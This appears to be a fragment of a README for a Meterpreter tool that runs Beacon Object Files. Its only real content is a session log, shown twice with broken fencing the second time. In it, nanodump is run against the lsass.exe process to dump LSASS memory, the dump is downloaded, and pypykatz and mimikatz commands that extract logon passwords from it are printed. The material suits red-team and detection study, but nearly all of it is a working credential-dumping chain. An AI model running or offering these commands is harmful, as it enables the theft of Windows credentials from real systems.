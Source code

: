 # Execution Environment
# Usage
## Compile
## Entry Point
## Argument Format-String
# Usage Examples
Executing [dir][4], passing the path argument and number of sub-directories to list.
```msf
meterpreter > ps lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 712  556   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > execute_bof nanodump.x64.o --format-string iziiiiiiiiziiiz 712 nanodump.dmp 1 1 0 0 0 0 0 0 "" 0 0 0 ""
Done, to download the dump run:
download nanodump.dmp
to get the secretz run:
python3 -m pypykatz lsa minidump nanodump.dmp
mimikatz.exe "sekurlsa::minidump nanodump.dmp" "sekurlsa::logonPasswords full" exit
meterpreter > download nanodump.dmp 
[*] Downloading: nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 1.00 MiB of 11.56 MiB (8.65%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 2.00 MiB of 11.56 MiB (17.31%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 3.00 MiB of 11.56 MiB (25.96%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 4.00 MiB of 11.56 MiB (34.62%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 5.00 MiB of 11.56 MiB (43.27%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 6.00 MiB of 11.56 MiB (51.92%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 7.00 MiB of 11.56 MiB (60.58%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 8.00 MiB of 11.56 MiB (69.23%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 9.00 MiB of 11.56 MiB (77.89%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 10.00 MiB of 11.56 MiB (86.54%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.00 MiB of 11.56 MiB (95.2%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.56 MiB of 11.56 MiB (100.0%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] download   : nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
meterpreter > 
```

`msf
meterpreter > ps lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 712  556   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > execute_bof nanodump.x64.o --format-string iziiiiiiiiziiiz 712 nanodump.dmp 1 1 0 0 0 0 0 0 "" 0 0 0 ""
Done, to download the dump run:
download nanodump.dmp
to get the secretz run:
python3 -m pypykatz lsa minidump nanodump.dmp
mimikatz.exe "sekurlsa::minidump nanodump.dmp" "sekurlsa::logonPasswords full" exit
meterpreter > download nanodump.dmp 
[*] Downloading: nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 1.00 MiB of 11.56 MiB (8.65%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 2.00 MiB of 11.56 MiB (17.31%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 3.00 MiB of 11.56 MiB (25.96%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 4.00 MiB of 11.56 MiB (34.62%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 5.00 MiB of 11.56 MiB (43.27%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 6.00 MiB of 11.56 MiB (51.92%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 7.00 MiB of 11.56 MiB (60.58%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 8.00 MiB of 11.56 MiB (69.23%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 9.00 MiB of 11.56 MiB (77.89%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 10.00 MiB of 11.56 MiB (86.54%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.00 MiB of 11.56 MiB (95.2%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.56 MiB of 11.56 MiB (100.0%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] download   : nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
meterpreter > 
`

